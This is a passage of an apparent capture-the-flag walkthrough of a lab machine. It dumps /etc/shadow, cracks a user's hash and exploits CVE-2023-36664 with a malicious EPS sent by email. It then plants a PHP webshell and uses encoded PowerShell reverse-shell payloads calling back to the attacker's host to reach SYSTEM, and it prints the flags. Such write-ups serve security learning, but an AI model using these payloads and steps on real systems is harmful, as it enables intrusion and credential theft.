tcpdump:x:105:111::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:113::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:108:114:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
drwilliams:x:1000:1000:Lucy Williams:/home/drwilliams:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:109:116:MySQL Server,,,:/nonexistent:/bin/false
root@webserver:/tmp/asd# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
```

The goal is to crack the password of user drwilliams to attempt to obtain valid credentials to access the Windows machine. The cracking worked and you get the password of the user "drwilliams": it is "qwe123!@#".



You make up a username and password file and bruteforce to see if there are any valid credentials for the Windows machine. Apparently, drwilliams credentials are valid for accessing the Windows machine.



Credentials do not allow access in RDP, but allow access to the mail application on port 443.



There is an unread message.



In the email sent by drbrown to Lucy, it mentions a file in ".eps" format that will be displayed with Ghoscript. Through a google search, a vulnerability is discovered: it is CVE-2023-36664.



From [https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) there is a script that allows you to create a malicious file.

```shell
$ python3 CVE_2023_36664_exploit.py --generate --payload 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA' -x eps
[+] Generated EPS payload file: malicious.eps
$ file malicious.eps 
malicious.eps: PostScript document text conforming DSC level 3.0, type EPS
```

The idea, now, is to respond to the email shown earlier by sending the malicious EPS file as an attachment.



Let's wait a few seconds.



I am IN.

***user.txt***: 21a4ab3c241b382391578be9a61c321e



User "drbrown" is a member of groups "Remote Desktop Users" and "Remote Management Users". In the "ghostscript.bat" file, his password is identified.

```shell
PS C:\Users\drbrown.HOSPITAL\Documents> net user drbrown
User name                    drbrown
Full Name                    Chris Brown
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/6/2023 6:53:27 AM
Password expires             Never
Password changeable          9/6/2023 6:53:27 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2/13/2024 7:34:43 AM

Logon hours allowed          All

Local Group Memberships      *Performance Log Users*Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *Domain Users

PS C:\Users\drbrown.HOSPITAL\Documents> type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
```

Winpeas is uploaded and executed. The script signals us that you have write permission in  "`C:\xampp`" directory.



The webapp webroot contains the files related to the installation of Roundcube webmail i.e. the webapp on port 443.



Since you have write permission in the webroot, you upload a webshell and check which user the webapp is running with.

```shell
*Evil-WinRM* PS C:\xampp\htdocs> upload simple-backdoor.php test.php
                                        
Info: Uploading /usr/share/webshells/php/simple-backdoor.php to C:\xampp\htdocs\test.php
                                        
Data: 436 bytes of 436 bytes copied
```



The webapp is running with SYSTEM privileges. This is the privilege escalation vector. Through the following HTTP request, a shell with SYSTEM privileges is obtained.

```http
GET /test.php?cmd=powershell+-e+JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AOAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA%2bACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA%2bACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA HTTP/1.1
Host: 10.10.11.241


```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 4444
        inet 10.10.14.8  netmask 255.255.254.0  destination 10.10.14.8
        inet6 fe80::f5b3:d4a4:d202:17a1  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1006  prefixlen 64  scopeid 0x0<global>
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.241] 6113

PS C:\xampp\htdocs> whoami
nt authority\system
```

I am SYSTEM.

***root.txt***: f565533d6e95ce78a0fa933d01219e8b


